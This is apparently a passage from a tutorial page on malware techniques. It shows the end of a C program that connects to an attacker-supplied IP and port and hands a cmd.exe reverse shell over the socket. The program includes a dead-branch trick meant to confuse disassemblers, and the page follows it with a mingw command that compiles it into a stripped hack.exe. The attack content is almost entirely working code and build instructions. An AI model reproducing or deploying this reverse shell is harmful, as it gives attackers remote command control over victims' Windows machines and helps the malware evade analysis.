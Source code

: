 ```c 
  connectionAddress.sin_family = AF_INET;
  connectionAddress.sin_port = htons(attackerPort);
  connectionAddress.sin_addr.s_addr = inet_addr(attackerIP);

  // establish connection to the remote host
  WSAConnect(mainSocket, (SOCKADDR*)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);

  memset(&startupInfo, 0, sizeof(startupInfo));
  startupInfo.cb = sizeof(startupInfo);
  startupInfo.dwFlags = STARTF_USESTDHANDLES;
  startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE) mainSocket;

  // Combine jz with jnz trick without inline assembly
  int a = 1;
  if (a == 1) {
    // initiate cmd.exe with redirected streams
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);
    // Jump to the next instruction
    if (a == 0) {
      // This block will never execute
      printf("This block will never execute\n");
    }
  }

  exit(0);
}
```
#### Compile 

```bash 
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lws2_32
```

#### Reverse 
